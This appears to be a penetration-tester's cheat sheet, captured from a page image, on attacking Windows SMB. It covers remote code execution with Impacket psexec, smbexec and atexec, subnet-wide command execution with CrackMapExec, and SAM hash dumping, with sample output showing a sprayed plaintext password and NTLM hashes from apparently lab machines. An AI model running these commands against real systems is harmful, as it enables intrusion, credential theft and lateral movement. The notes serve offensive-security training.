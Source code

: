 ```bash
[+] 10.129.167.224:445 - Success: '.\jason:34c8zuNBo91!@28Bszh'
```

---

## 💻 Remote Code Execution

### 1. PsExec Family Tools

#### Impacket PsExec
```bash
# Basic RCE with valid credentials
impacket-psexec administrator:'Password123!'@10.10.110.17

# Process:
# 1. Deploys service to admin$ share
# 2. Uses DCE/RPC over SMB
# 3. Accesses Windows Service Control Manager
# 4. Creates named pipe for command execution
```

#### Alternative Impacket Tools
```bash
# SMBExec - doesn't use RemComSvc
impacket-smbexec administrator:'Password123!'@10.10.110.17

# AtExec - uses Task Scheduler
impacket-atexec administrator:'Password123!'@10.10.110.17 "whoami"
```

### 2. CrackMapExec RCE
```bash
# Execute single command
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

# Execute PowerShell commands
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -X 'Get-Process'

# Multiple targets
crackmapexec smb 10.10.110.0/24 -u Administrator -p 'Password123!' -x 'whoami'
```

---

## 🏷️ Credential Extraction & Lateral Movement

### 1. SAM Database Extraction
```bash
# Extract local password hashes
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

# Example output
SMB    10.10.110.17  445  WIN7BOX  [+] Dumping SAM hashes
SMB    10.10.110.17  445  WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB    10.10.110.17  445  WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
```
